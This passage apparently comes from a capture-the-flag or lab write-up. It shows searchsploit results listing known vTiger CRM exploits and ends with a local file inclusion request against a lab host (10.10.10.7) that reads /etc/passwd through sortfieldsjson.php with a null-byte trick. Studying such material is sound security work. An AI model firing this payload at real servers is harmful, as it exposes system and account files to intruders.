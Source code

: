 ```
vTiger CRM 4.2 - 'calpath' Multiple Remote File Inclusions                                                                                                          | exploits/php/webapps/2508.txt
vTiger CRM 4.2 - SQL Injection                                                                                                                                      | exploits/php/webapps/26586.txt
vTiger CRM 4.2 Leads Module - 'record' Cross-Site Scripting                                                                                                         | exploits/php/webapps/26584.txt
vTiger CRM 4.2 RSS Aggregation Module - Feed Cross-Site Scripting                                                                                                   | exploits/php/webapps/26585.txt
vTiger CRM 5.0.4 - Local File Inclusion                                                                                                                             | exploits/php/webapps/16280.py
vTiger CRM 5.0.4 - Multiple Cross-Site Scripting Vulnerabilities                                                                                                    | exploits/php/webapps/32307.txt
vTiger CRM 5.0.4 - Remote Code Execution / Cross-Site Request Forgery / Local File Inclusion / Cross-Site Scripting                                                 | exploits/php/webapps/9450.txt
vTiger CRM 5.1.0 - Local File Inclusion                                                                                                                             | exploits/php/webapps/18770.txt
vTiger CRM 5.2 - 'onlyforuser' SQL Injection                                                                                                                        | exploits/php/webapps/36208.txt
vTiger CRM 5.2.1 - 'PHPrint.php' Multiple Cross-Site Scripting Vulnerabilities                                                                                      | exploits/php/webapps/36204.txt
vTiger CRM 5.2.1 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities (1)                                                                                    | exploits/php/webapps/36203.txt
vTiger CRM 5.2.1 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities (2)                                                                                    | exploits/php/webapps/36255.txt
vTiger CRM 5.2.1 - 'sortfieldsjson.php' Local File Inclusion                                                                                                        | exploits/php/webapps/35574.txt
vTiger CRM 5.2.1 - 'vtigerservice.php' Cross-Site Scripting                                                                                                         | exploits/php/webapps/35577.txt
vTiger CRM 5.3.0 5.4.0 - (Authenticated) Remote Code Execution (Metasploit)                                                                                         | exploits/php/remote/29319.rb
vTiger CRM 5.4.0 - 'index.php?onlyforuser' SQL Injection                                                                                                            | exploits/php/webapps/28409.txt
vTiger CRM 5.4.0 SOAP - AddEmailAttachment Arbitrary File Upload (Metasploit)                                                                                       | exploits/php/remote/30787.rb
vTiger CRM 5.4.0 SOAP - Multiple Vulnerabilities                                                                                                                    | exploits/php/webapps/27279.txt
vTiger CRM 5.4.0/6.0 RC/6.0.0 GA - 'browse.php' Local File Inclusion                                                                                                | exploits/php/webapps/32213.txt
vTiger CRM 6.3.0 - (Authenticated) Remote Code Execution                                                                                                            | exploits/php/webapps/38345.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

Getting the passwd file:

https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=/etc/passwd%00

